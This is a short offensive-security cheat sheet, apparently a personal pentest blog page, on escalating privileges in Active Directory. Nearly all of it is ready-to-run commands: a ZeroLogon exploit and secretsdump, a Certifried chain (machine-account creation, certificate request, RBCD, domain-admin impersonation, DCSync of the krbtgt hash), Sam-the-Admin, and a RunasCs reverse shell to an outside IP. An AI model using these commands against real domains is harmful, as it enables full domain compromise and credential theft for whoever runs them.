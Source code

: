 ```yaml
---
title: AD Privilege Escalation CVEs
author: asphixie
date: 2023-03-10 14:10:00 +0800
categories: [Active Directory, LPE]
comments: false
---
```


## CVE-2020-1472 : Zero Logon
PoC based on this link : <https://github.com/dirkjanm/CVE-2020-1472>
```bash
python3 cve-2020-1472-exploit.py HOSTNAME IP
impacket-secretsdump 'HOSTNAME$@IP'
```

## CVE-2022-26923 : Certifried
More info in : <https://cravaterouge.github.io/ad/privesc/2022/05/11/bloodyad-and-CVE-2022-26923.html>
By default, a user can create at least 10 computers. To verify this, check if ms-DS-MachineAccountQuota > 0 :
```bash
python3 bloodyAD.py -d DOMAIN -u USERNAME -p PASSWORD --host DC_IP getObjectAttributes 'DC=domain,DC=local' ms-DS-MachineAccountQuota
```
If it's okay, just add a computer with bloodyAD :
```bash
python3 bloodyAD.py -d DOMAIN -u USERNAME -p PASSWORD --host DC_IP addComputer COMPUTER_NAME 'COMPUTER_PASSWORD'
```
Then, set the dNSHostname attribute of your machine to match the domain controller one (for exemple DC.domain.local) :
```bash
python3 bloodyAD.py -d DOMAIN -u USERNAME -p PASSWORD --host DC_IP setAttribute 'CN=COMPUTER_NAME,CN=Computers,DC=domain,DC=local' dNSHostName '["DC.domain.local"]'
```
Use certipy to request a certificate for the computer, using default 'Machine' template & ADCS IP address. This will create a .pfx file, corresponding to the certificate issued by the CA :
```bash
certipy req 'domain.local/COMPUTER_NAME$:COMPUTER_PASSWORD@ADCS_IP' -template Machine -dc-ip DC_IP -ca CA_NAME
```
Then, use certipy tool to get a TGT by using a Kerberos authentication (PKINIT), using the certificate :
```bash              
certipy auth -pfx ./DC.pfx -dc-ip 10.100.10.12
```
If it works, go to "HERE" section. Otherwise, use RBCD technique from bloodyAD. It will set up delegation rights :
```bash
openssl pkcs12 -in DC.pfx -out DC.pem -nodes
python3 bloodyAD.py -d domain.local  -c ":DC.pem" -u 'COMPUTER_NAME$' --host DC_IP setRbcd 'COMPUTER_NAME$' 'DC_NAME$'
```
Then, try to impersonate a domain admin using impacket :
```bash
impacket-getST -spn LDAP/DC.DOMAIN.LOCAL -impersonate ADMIN_NAME -dc-ip DC_IP 'domain.local/COMPUTER_NAME$:COMPUTER_PASSWORD'
```
HERE - You'll get either the .ccache file (TGT) or the NT Hash. If you get the NT Hash, you know what to do next ;). It's linked to the DC computer account, so normally, you're admin. To use .ccache file :
```bash
cp XXXX.ccache /tmp/
export KRB5CCNAME=/tmp/XXXX.ccache
```
Finally, use impacket to perform a DCSync with the exported TGT :
```bash
impacket-secretsdump -user-status -just-dc-ntlm -just-dc-user krbtgt 'domain.local/XXXX@DC.domain.local' -k -no-pass -dc-ip DC_IP -target-ip IP_ADDRESS 
```

## CVE-2021-42278 & CVE-2021-42287 : Sam-The-Admin
Impersonate DA from standard domain user. Based on <https://github.com/WazeHell/sam-the-admin>
```bash
python3 sam_the_admin.py -domain-netbios NETBIOS_NAME -dc-ip IP_DC -shell 'DOMAIN/USERNAME:PASSWORD'
```

## RunAs
If you get a revershell a something and you have credentials of another user, just use this tool : https://github.com/antonioCoco/RunasCs/tree/master. You will get a proper reverse shell executed by the specified user.
```powershell
RunasCs.exe user1 password1 cmd.exe -r 10.10.10.24:4444
```

## Abusing SeImpersonatePrivilege
Use these tools :
https://github.com/itm4n/PrintSpoofer
https://github.com/antonioCoco/JuicyPotatoNG
